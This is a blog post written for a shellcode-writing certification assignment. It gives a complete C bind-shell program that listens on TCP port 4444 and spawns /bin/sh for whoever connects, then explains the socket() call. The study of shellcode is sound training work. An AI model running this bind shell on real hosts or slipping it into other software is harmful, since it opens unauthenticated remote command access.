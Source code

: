 ## Assignment 0x01: Create A Shell_Bind_TCP Shellcode
---
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main ()
{

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

First, a socket is created using `socket()`. As described in the `man 2 socket` man page, the `socket` function creates  an  endpoint for communication and returns a file descriptor that refers to that endpoint. The function expects a domain argument, a type argument, and a protocol argument.

>int `socket`(int `domain`, int `type`, int `protocol`);

In this case, the domain argument AF_INET specifies the IPv4 communication protocol, the type argument SOCK_STREAM specifies the connection-based TCP standard for data exchange, and the protocol argument 0 indicates that the system should select the default protocol number based on the previously specified domain and protocol arguments.

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

---
[Home](https://norrismw.github.io/SLAE)
